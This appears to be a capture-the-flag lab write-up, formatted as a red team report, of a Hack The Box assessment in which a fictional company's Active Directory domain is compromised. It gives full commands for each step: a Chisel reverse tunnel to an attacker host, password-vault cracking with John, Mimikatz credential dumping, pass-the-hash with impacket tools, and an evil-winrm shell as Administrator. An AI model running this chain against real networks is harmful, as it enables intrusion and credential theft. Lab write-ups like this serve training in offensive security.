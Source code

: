 
# 🛡️ HTB Skills Assessment: The Credential Theft Shuffle — Red Team Report

## 🎯 Objective
> **Gain command execution on Nexura LLC's domain controller (`DC01`)** by exploiting poor credential hygiene and lateral movement opportunities across the internal network.

---

## 🧭 Engagement Overview

- **Target Company**: Nexura LLC  
- **Scope**:
  - `DMZ01` (172.16.119.13)
  - `JUMP01` (172.16.119.7)
  - `FILE01` (172.16.119.10)
  - `DC01` (172.16.119.11)

---

## 🧨 Attack Path Summary

```
Initial Creds (Betty) → SSH Foothold → SSH History Discovery (William)
→ Internal Pivot via Chisel → SMB/LDAP Recon
→ Legacy Password Vault → Crack bdavid → Admin on JUMP01
→ Session Hijack → Dump Stom’s Hash → Pass-the-Hash to DC01
→ 🎯 Domain Admin Access Achieved
```

---

## 🔓 Initial Access

### ➤ Leaked Credentials

```
jbetty: Texas123!@#
```

### ➤ SSH Access to External Host

```
ssh jbetty@10.129.X.X
```

### ➤ .bash_history Discovery

```
sshpass -p 'dealer-screwed-gym1' ssh hwilliam@file01
```

---

## 🛠️ Internal Network Pivoting

### ➤ Tunnel Internal Access via Chisel

```
# Attacker
chisel server -p 9001 --reverse

# Victim (DMZ01)
chisel client 10.10.14.180:9001 R:socks
```

### ➤ Configure Proxychains

```
socks5 127.0.0.1 1080
```

---

## 🔍 Internal Enumeration

### ➤ Nmap and CrackMapExec

- SMB, LDAP, RDP open on all internal hosts  
- No lockout policy  
- Password complexity enabled  

### ➤ Enumerated Shares

```
proxychains smbclient -L \\172.16.119.11 -U hwilliam
```

---

## 🧠 BloodHound Recon

- `bdavid` has **local admin on JUMP01**
- `stom` (Domain Admin) has an active **RemoteInteractive session** on `JUMP01`
- Attack path: **HasSession + AdminTo = Full DA compromise**

---

## 🔐 Credential Dumping

### ➤ Found Legacy `.psafe3` Vault

```
Employee-Passwords_OLD.psafe3
```

### ➤ Cracked with John

```
john psafe.hash --wordlist=rockyou.txt

✔ bdavid: caramel-cigars-reply1
✔ stom (old): fails-nibble-disturb4
```

---

## 🛗 Local Privilege Escalation on JUMP01

### ➤ RDP into JUMP01 as hwilliam

```
xfreerdp /u:hwilliam /p:'dealer-screwed-gym1' /v:172.16.119.7
```

### ➤ `runas` and Password Spray

```
runas /user:nexura\bdavid cmd
```

### ➤ Confirmed: `bdavid` is local admin on `JUMP01`

---

## 🧪 Credential Extraction via Mimikatz

```
sekurlsa::logonpasswords
```

Extracted `stom` NTLM hash:

```
21ea958524cfd9a7791737f8d2f764fa
```

---

## 🎯 Domain Controller Compromise

### ➤ Pass-the-Hash

```
proxychains impacket-wmiexec -hashes :21ea958524cfd9a7791737f8d2f764fa stom@172.16.119.11
```

✅ Shell as `nexura\stom`

### ➤ Dump Domain Secrets

```
proxychains impacket-secretsdump -hashes :21ea958524cfd9a7791737f8d2f764fa stom@172.16.119.11
```

### ➤ WinRM Shell as Administrator

```
evil-winrm -i 172.16.119.11 -u Administrator -H 36e09e1e6ade94d63fbcab5e5b8d6d23
```

```
whoami → nexura\administrator
```

---

## ✅ Summary of Findings

| Finding                            | Risk     |
|------------------------------------|----------|
| Credential Reuse                   | High     |
| Legacy vault with valid domain creds | High  |
| User with local admin & DA session | Critical |
| No account lockout policy          | High     |
| Passwords follow guessable pattern | High     |

---

## 🛡 Recommendations

- Rotate all domain and local credentials
- Disable password reuse and use vault monitoring
- Enforce strict account lockout and password aging
- Monitor and limit local admin access
- Patch session exposure and enable LSASS protection
